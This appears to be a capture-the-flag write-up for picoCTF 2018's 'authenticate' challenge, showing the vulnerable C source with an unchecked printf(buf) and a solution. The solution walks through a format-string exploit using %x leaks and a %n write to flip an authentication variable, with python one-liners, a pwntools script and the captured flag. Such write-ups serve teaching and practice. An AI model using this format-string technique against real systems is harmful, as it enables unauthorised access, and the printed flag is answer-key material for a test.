

# authenticate
**Points: 350**

## Binary Exploitation

## Question
> Can you authenticate to this service and get the flag? Connect with nc 2018shell.picoctf.com 52918. Source.
```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>
#include <sys/types.h>

int authenticated = 0;

int flag() {
  char flag[48];
  FILE *file;
  file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(flag, sizeof(flag), file);
  printf("%s", flag);
  return 0;
}

void read_flag() {
  if (!authenticated) {
    printf("Sorry, you are not *authenticated*!\n");
  }
  else {
    printf("Access Granted.\n");
    flag();
  }

}

int main(int argc, char **argv) {

  setvbuf(stdout, NULL, _IONBF, 0);

  char buf[64];
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  printf("Would you like to read the flag? (yes/no)\n");

  fgets(buf, sizeof(buf), stdin);
  
  if (strstr(buf, "no") != NULL) {
    printf("Okay, Exiting...\n");
    exit(1);
  }
  else if (strstr(buf, "yes") == NULL) {
    puts("Received Unknown Input:\n");
    printf(buf);
  }
  
  read_flag();

}
```

### Hint
> What happens if you say something OTHER than yes or no?

## Solution
As you see the buffer is not overflowable since the program uses fgets.
Some lines below the fget we see **printf(buf);** so we know that this is a **format string** challenge.
First we have to find the address that we want to modify: authenticated
```bash
objdump -t auth | grep authenticated
0804a04c g     O .bss   00000004              authenticated
```

To modify that address we create a pattern: **'A'*4 + '\x4c\xa0\x04\x08' + 'B'*4 + '%x '*20 **
```bash
python -c "print 'A'*4 + '\x4c\xa0\x04\x08' + 'B'*4 + '%x '*20" | ./auth
Would you like to read the flag? (yes/no)
Received Unknown Input:

AAAABBBB80489a6 f7f435c0 804875a ffa7df70 0 f7fa7000 ffa7e034 0 ffa7e034 0 41414141 804a04c 42424242 25207825 78252078 20782520 25207825 Sorry, you are not *authenticated*!
```

Now we have to align the output with **0804a04c** that is the address that we want to modify.
```bash
python -c "print 'A'*4 + '\x4c\xa0\x04\x08' + 'B'*4 + '%x '*12" | ./auth
Would you like to read the flag? (yes/no)
Received Unknown Input:

AAAABBBB80489a6 f7f385c0 804875a ffe95330 0 f7f9c000 ffe953f4 0 ffe953f4 0 41414141 804a04c 
Sorry, you are not *authenticated*!
```
As you see the last address that we are leaking is the required, we can modify it adding **%n**:
```bash
python -c "print 'A'*4 + '\x4c\xa0\x04\x08' + 'B'*4 + '%x '*11 + '%n'" | nc 2018shell.picoctf.com 52918

Would you like to read the flag? (yes/no)
Received Unknown Input:

AAAABBBB80489a6 f77775a0 804875a f77b0000 f77b0918 ff8b10c0 ff8b11b4 0 ff8b1154 429 41414141 
Access Granted.
picoCTF{y0u_4r3_n0w_aUtH3nt1c4t3d_d29a706d}
```

With python:
```python
from pwn import *

e = ELF('auth')
auth_addr = e.symbols['authenticated']

# nc 2018shell.picoctf.com 52918

host = '2018shell.picoctf.com'
port = 52918

payload = 'A' * 4 + p32(auth_addr) + 'B' * 4 + '%x ' * 11 + '%n '
# payload = '%11$n'

r = remote(host, port)
r.recv()
r.sendline(payload)
r.recvline()
r.recvuntil('Access Granted.')
print(r.recv())
```


### Flag
`picoCTF{y0u_4r3_n0w_aUtH3nt1c4t3d_d29a706d}`
